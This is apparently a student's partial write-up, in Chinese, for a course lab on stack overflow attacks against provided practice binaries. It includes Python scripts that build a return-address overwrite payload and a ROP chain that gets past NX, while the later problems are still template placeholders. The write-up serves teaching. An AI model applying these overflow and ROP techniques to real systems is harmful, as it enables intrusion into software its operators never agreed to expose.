

# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
  1. 阅读汇编代码发现，`func`函数（地址0x401232）存在栈溢出漏洞：
     - 函数分配了0x20（32字节）的栈空间（`sub $0x20,%rsp`）
     - 局部变量存储在`-0x8(%rbp)`位置（即rbp-8）
     - 使用`strcpy`函数将输入复制到局部变量，没有长度检查
  
  2. 栈布局分析（64位系统）：
     - 进入`func`时，`call`指令将返回地址压栈（8字节）
     - `push %rbp`保存旧的rbp（8字节）
     - 当前rbp指向保存的rbp位置
     - 局部变量在`rbp-8`位置
     - 从`rbp-8`到`rbp`是8字节
     - `rbp`位置是保存的rbp（8字节）
     - `rbp+8`位置是返回地址（8字节）
  
  3. 目标函数`func1`（地址0x401216）：
     - 该函数会打印地址0x402004处的字符串（应该是'Yes!I like ICS!'）
     - 然后调用`exit(0)`退出程序
  
  4. 攻击思路：
     - 通过栈溢出覆盖返回地址，使`func`函数返回时跳转到`func1`函数
     - payload结构：8字节填充 + 8字节saved_rbp + 8字节func1地址

- **解决方案**：
```pythonpadding = b"A" * 8  # 覆盖从rbp-8到rbp的8字节
saved_rbp = b"B" * 8  # 覆盖保存的rbp（可以是任意值）
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # func1地址0x401216，小端序

payload = padding + saved_rbp + func1_address

# 将payload写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)
```

- **结果**：


### Problem 2:
- **分析**：
  1. 阅读汇编代码发现，`func`函数（地址0x401290）存在栈溢出漏洞：
     - 函数分配了0x20（32字节）的栈空间（`sub $0x20,%rsp`）
     - 局部变量存储在`-0x8(%rbp)`位置（即rbp-8）
     - 使用`memcpy`函数复制0x38（56字节）的数据到局部变量，明显超过了分配的栈空间，存在溢出漏洞
  
  2. 目标函数`func2`（地址0x401216）：
     - 该函数接受一个参数（通过edi寄存器，即rdi的低32位）
     - 检查参数是否等于0x3f8（1016）
     - 如果参数等于0x3f8，则打印地址0x40203b处的字符串（应该是'Yes!I like ICS!'）
     - 否则打印其他内容并退出
  
  3. NX保护机制：
     - Problem 2启用了NX（No-Execute）保护，栈不可执行
     - 不能直接在栈上注入shellcode执行
     - 需要使用ROP（Return-Oriented Programming）技术
  
  4. ROP Gadget分析：
     - 程序中提供了`pop_rdi`函数（地址0x4012bb）
     - 该函数在地址0x4012c7处有`pop %rdi; ret`指令序列
     - 这个gadget可以用来设置rdi寄存器（64位系统第一个参数寄存器）
  
  5. 攻击思路：
     - 通过栈溢出覆盖返回地址
     - 使用ROP链：跳转到`pop_rdi` gadget → 设置rdi为0x3f8 → 跳转到`func2`函数
     - payload结构：8字节填充 + 8字节saved_rbp + 8字节pop_rdi_gadget + 8字节参数值 + 8字节func2地址

- **解决方案**：
```python
padding = b"A" * 8  # 覆盖从rbp-8到rbp的8字节
saved_rbp = b"B" * 8  # 覆盖保存的rbp（可以是任意值）

# ROP链：
# 1. 返回地址：pop_rdi gadget (0x4012c7) - pop %rdi; ret
pop_rdi_gadget = b"\xc7\x12\x40\x00\x00\x00\x00\x00"  # 0x4012c7

# 2. func2的参数：0x3f8（64位，小端序）
func2_arg = b"\xf8\x03\x00\x00\x00\x00\x00\x00"  # 0x00000000000003f8

# 3. func2函数地址
func2_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # 0x401216

payload = padding + saved_rbp + pop_rdi_gadget + func2_arg + func2_address

# 将payload写入文件
with open("ans2.txt", "wb") as f:
    f.write(payload)
```

- **结果**：


### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

无
